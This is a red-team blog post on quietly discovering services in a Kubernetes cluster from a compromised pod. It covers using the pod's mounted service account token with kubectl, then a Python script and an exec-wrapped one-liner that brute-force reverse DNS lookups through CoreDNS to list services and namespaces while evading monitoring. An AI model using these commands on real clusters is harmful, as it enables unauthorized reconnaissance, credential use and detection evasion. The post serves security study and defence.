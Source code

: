 ```yaml
---
layout: post
title: Service Discovery in Kubernetes with Restrictive Permissions
author: nopcorn
description: When operating in a kubernetes environment without permissions allowing you to list pods and services, there are other options for getting the lay of the land
summary: When operating in a kubernetes environment without permissions allowing you to list pods and services, there are other options for getting the lay of the land
tags: [kubernetes, eks, k8s, tradecraft, discovery]
---
```


> - Most Kubernetes clusters running CoreDNS support reverse DNS lookups by default
> - Listing pods and services in a cluster is considered a privileged action, protected by the `list` verb on the `services` and `namespace` resources
> - Bruteforcing the cluster's IP space via reverse DNS lookups will reveal services available in the cluster
> - This allows for some light privilege escalation ™

In a recent red team engagement, I encountered a curious scenario while navigating a Kubernetes cluster. After exploiting a vulnerability in an ephemeral pod and deploying a customized version of the [Poseidon](https://github.com/MythicAgents/poseidon) agent, I turned to lateral movement and privilege escalation. Generally, I start with the stored API creds already available in the pod located in `/var/run/secrets/kubernetes.io/serviceaccount/token` to see what I can access.

```hack-nowrap
$ curl -L "https://dl.k8s.io/release/v1.30.2/bin/linux/amd64/kubectl" -o /tmp/kubectl
$ chmod +x /tmp/kubectl
$ /tmp/kubectl --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) auth can-i --list
Resources                                       Non-Resource URLs                      Resource Names   Verbs
selfsubjectreviews.authentication.k8s.io        []                                     []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                     []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                     []               [create]
                                                [/.well-known/openid-configuration/]   []               [get]
                                                [/.well-known/openid-configuration]    []               [get]
                                                [/api/*]                               []               [get]
                                                [/api]                                 []               [get]
                                                [/apis/*]                              []               [get]
                                                [/apis]                                []               [get]
                                                [/healthz]                             []               [get]
                                                [/healthz]                             []               [get]
                                                [/livez]                               []               [get]
                                                [/livez]                               []               [get]
                                                [/openapi/*]                           []               [get]
                                                [/openapi]                             []               [get]
                                                [/openid/v1/jwks/]                     []               [get]
                                                [/openid/v1/jwks]                      []               [get]
                                                [/readyz]                              []               [get]
                                                [/readyz]                              []               [get]
                                                [/version/]                            []               [get]
                                                [/version/]                            []               [get]
                                                [/version]                             []               [get]
                                                [/version]                             []               [get]

```

In this case - I couldn't access anything. This effectively rendered the Kubernetes API useless for further exploration unless I found a new token to try out. I turned to classic old-school lateral movement and host dicovery.

I knew a SentinelOne agent was present on the hypervisor so fast network-based host discovery via `nmap` or `zmap` would be much too noisy and risk giving away the attacker advantage so early in the engagement. I thought about writing a quick and dirty python scanner with generous sleeping in between hosts, but after discovering I was in a `/16` I didn't have the patience to sit through slowly working by way through 65000 potential live IPs. Additionally, I could identify a live IP but due to how Kubernetes clusters are managed that IP could be reassigned or abandoned at any time if a new deployment or load balancing was performed.

Instead I looked for quieter ways of identifying services and pods that wouldn't be as scritized by security products and audit logs, but allowed me to progress somewhat quickly. I decided to take a look at how CoreDNS worked as there was likely less visibility on DNS queries and reoslutions within a cluster. 

In Kubernetes, DNS is used by pods to identify other services available in the cluster as IPs change frequently. Every service in Kubernetes is provisioned an entry in the cluster's DNS that corresponds to its service name and the namespace that it's in:

![](/assets/img/k8s-dns-structure.png)

The only namespace I knew of was the one I was currently in (found in `/run/secrets/kubernetes.io/serviceaccount/namespace`). I debated generating a wordlist of common namespace and service names but decided against bruteforcing. 

From previously listing network interfaces, I knew that I was in a `/16` network and could iterate through the IP addresses performing [reverse lookups](https://en.wikipedia.org/wiki/Reverse_DNS_lookup) if CoreDNS automatically inserted PRT records or if it resolved the `in-addr.arpa` domain name.

As it so happens, this is a [feature of CoreDNS which is enabled by default](https://kubernetes.io/docs/tasks/administer-cluster/dns-custom-nameservers/#coredns). The `in-addr.arpa` domain being present allows for the server to automatically resolve our reverse lookups.

I wrote a quick and dirty pastable python script that will read an IP range in CIDR notation from the environment and try a reverse resolution for each IP:

```python
import socket
import ipaddress
import os

cidr = os.environ.get('cidr')
net = ipaddress.ip_network(cidr)
for ip in net:
    name = socket.getnameinfo((str(ip), 0), 0)[0]
    try:
        ipaddress.ip_address(name)
    except ValueError:
        print(f'{name} -> {ip}') 
```

Collapsing this script into a one liner and running it through python looks something like this:

```shell
$ cidr="172.20.0.0/16" python3 -c "exec(\"import socket\nimport ipaddress\nimport os\n\ncidr = os.environ.get('cidr')\nnet = ipaddress.ip_network(cidr)\n\nfor ip in net:\n\tname = socket.getnameinfo((str(ip), 0), 0)[0]\n\ttry:\n\t\tipaddress.ip_address(name)\n\texcept ValueError:\n\t\tprint(f'{name} -> {ip}')\")" | grep -v "compute"
```

I had to grep out the non-service responses or else every IP address would return a default AWS resolution like `ip-172-20-0-7.us-east-1.compute.internal`.


Letting this script run for a bit gave me a complete list of services in the cluster and their currently associated IP addresses. Additionally, because the namespace a service is hosted in appears in the domain name for it, I get a partial list of valid namespaces in the cluster. __This essentially allows an unprivileged token to give itself the `list` verb on the `services` and `namespaces` resources, even if they have been explicitly denied__.

Armed with a list of valid services in the network I could now pivot to software identification and port scanning.